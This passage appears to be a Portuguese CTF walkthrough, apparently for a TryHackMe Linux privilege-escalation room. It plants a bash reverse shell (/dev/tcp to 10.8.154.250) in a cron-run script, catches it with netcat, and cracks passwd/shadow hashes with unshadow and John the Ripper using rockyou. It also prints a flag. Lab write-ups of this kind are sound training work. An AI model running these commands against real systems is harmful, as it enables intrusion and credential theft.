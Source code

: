 ```bash
cat /etc/crontab
```

- Perceba que tem 4 dele e procurando tanto com o locate quanto o find, nao achamos esse arquivo, entao vamos criar um arquivo q substitua ele/s para o sistema rodar sozinho por nos
- Tanto faz qual vc fara, porem que que estar com o nome correto, e na pasta correta
- Porem voce precisa saber onde voce pode escrever ent
    
    ```bash
    find / -writable -type d 2>/dev/null
    nano /home/karen/backup.sh
    ```
    
    - Conteudo do arquivo
    
    ```bash
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.8.154.250/777 0>&1
    ```
    
- Apos salvar, basta abrir a porta que voce colocou
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250
    ```
    
- Entao espere o sistema rodar seu programa ser executado para seu shell reverso
    
    ```bash
    find / -name flag*.txt 2>/dev/null
    cat /home/ubuntu/flag5.txt
    ```
    
- `THM-383000283`

### What is Matt's password?

- Vamos fazer do mesmo jeito que o [What is the password of user2?](https://www.notion.so/What-is-the-password-of-user2-29e42cc17c32483a9e3be0e18fa795d3?pvs=21)
- Vamos copiar todo o conteudo de `passwd` e `shadow` cada um em um arquivo
- Lembrando que devemos estar na pasta do `john/run` para fazer os comando do `john`
    
    ```bash
    ./unshadow ~/Desktop/passwd.txt ~/Desktop/shadow.txt > ../crack.txt
    ```
    
- Agora vamos crackear as senhas
    
    ```bash
    ./john --wordlist=/home/fabis/important/ArquivosH/wordlist/rockyou.txt ../crack.txt
    ./john ../crack.txt --show
    ```
    
- `matt:123456:1002:1002::/home/matt:/bin/sh`

---
